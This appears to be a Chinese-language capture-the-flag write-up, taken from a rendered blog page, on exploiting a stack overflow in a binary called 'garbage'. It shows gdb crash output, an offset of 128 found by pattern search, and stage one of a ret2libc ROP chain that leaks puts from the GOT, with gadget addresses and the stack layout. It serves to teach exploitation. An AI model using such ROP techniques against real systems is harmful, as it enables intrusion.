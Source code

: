 0032| 0x7fff2964aba8 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0040| 0x7fff2964abb0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0048| 0x7fff2964abb8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0056| 0x7fff2964abc0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401618 in auth ()
gdb-peda$ pattern_offset AkAAPAAl
AkAAPAAl found at offset: 128
{% endhighlight %}

## 0x02 如何构造ret2libc的ROP
- Stage 1 leak: 直接使用puts函数打印got.puts地址获取内存中libc gets的地址，利用leak得到的gets地址计算得到当前libc的地址
- Stage 2 ret2libc: 当然是利用libc为所欲为啦
- DEBUG的注意点: 本地的默认libc和远程服务器上的libc一般是不一样的，大多数遇到本地利用成功远程利用失败的都是这个原因

## 0x03 ROP stage1: Leak
- `puts`函数只有一个参数，x86-64的第一个参数传递使用的是`rdi`寄存器，所以需要在`garbage`中找到`pop rdi; ret`的gadget
```console
Ellingson # ROPgadget --binary garbage | grep 'pop rdi ; ret'
0x000000000040179b : pop rdi ; ret
```

- 接下来需要got.puts放在栈上(`0x404028`)，再者是puts的调用放在栈上(`0x401050`)
```console
Ellingson # objdump --disassemble-all garbage | grep puts -A 5
0000000000401050 <puts@plt>:
  401050:	ff 25 d2 2f 00 00    	jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>
  401056:	68 02 00 00 00       	pushq  $0x2
  40105b:	e9 c0 ff ff ff       	jmpq   401020 <.plt>
```

- 最后是继续回到main函数(`0x401619`)
```console
Ellingson # objdump --disassemble-all garbage | grep '<main>' -A 5
0000000000401619 <main>:
  401619:	55                   	push   %rbp
  40161a:	48 89 e5             	mov    %rsp,%rbp
  40161d:	48 83 ec 10          	sub    $0x10,%rsp
  401621:	b8 00 00 00 00       	mov    $0x0,%eax
  401626:	e8 2e fe ff ff       	callq  401459 <check_user>
```

- 最终stack上leak阶段的ROP链大概是这样的
{% highlight text %}
高内存位-------------------------------------------------

main                  0x401619 # 回到main函数
plt.puts              0x401050 # 调用puts函数
got.puts              0x404028 # got.puts, puts调用的参数
check_auth的返回地址   0x40179b # pop rdi; ret

overflow填            AAAAAAAAAAAAA
充无用数据             AAAAAAAAAAAAA

低内存位------------------------------------------------
{% endhighlight %}
